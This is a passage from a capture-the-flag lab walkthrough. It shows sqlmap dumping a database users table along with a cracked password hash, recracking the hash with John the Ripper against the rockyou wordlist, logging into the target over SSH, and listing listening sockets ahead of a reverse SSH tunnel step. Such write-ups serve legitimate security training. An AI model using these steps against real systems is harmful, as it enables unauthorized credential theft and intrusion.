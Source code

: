 ```text
[22:13:45] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[22:14:20] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[22:14:20] [INFO] starting 4 processes 
[22:14:43] [INFO] cracked password 'videogamer124' for user 'agent47'          
Database: db                                                                   
Table: users
[1 entry]
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+

[22:17:28] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.13.164/dump/db/users.csv'
[22:17:28] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.13.164'

[*] ending @ 22:17:28 /2022-09-30/
```

## Cracking password with John

We already have the password, but do again:

    # echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > agent47.txt
    # john agent47.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

With username and password known, `ssh` into the target:

    ssh agent47@<IP address target machine>                            

    Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
    agent47@gamezone:~$ ls
    user.txt
    agent47@gamezone:~$ cat user.txt

## Exposing services with reverse SSH tunnels 

Use `ss` to investigate sockets:

```text
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q       Local Address:Port        Peer Address:Port
udp    UNCONN     0      0                     *:10000              *:*
udp    UNCONN     0      0                     *:68                 *:*
tcp    LISTEN     0      80            127.0.0.1:3306               *:*
tcp    LISTEN     0      128                   *:10000              *:*
tcp    LISTEN     0      128                   *:22                 *:*
tcp    LISTEN     0      128                  :::80                :::*
tcp    LISTEN     0      128                  :::22                :::*
```
